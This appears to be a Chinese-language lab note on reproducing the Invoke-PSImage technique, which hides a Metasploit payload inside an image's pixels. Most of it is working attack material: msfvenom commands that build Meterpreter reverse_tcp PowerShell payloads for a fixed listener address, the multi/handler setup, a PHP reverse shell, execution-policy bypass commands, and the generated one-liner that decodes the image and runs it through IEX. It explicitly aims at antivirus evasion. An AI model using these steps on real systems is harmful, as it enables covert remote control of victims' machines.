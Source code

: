 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

先保证msf生成的payload执行可以反弹,再把它藏在图片中

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

![](2.jpg)

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显即可反弹，复现成功

原理：将不免杀的payload藏于图片中，图片是免杀的，上传图片即可。调用图片的代码也是免杀的，类似于调用包含shellcode的文件

生成的回显即为调图片的代码。也可以根据需求设置调用网页上的图片。



evil.ps1 为我写的一个在powershell中输出 test 的小脚本，用于测试使用

```$powershell -exec bypass``` 或 ```$powershell```   # 在 cmd唤起powershell


**注意：图片像素数应大于payload字节数**

### 参考资料

[powershell攻击集](https://github.com/samratashok/nishang)
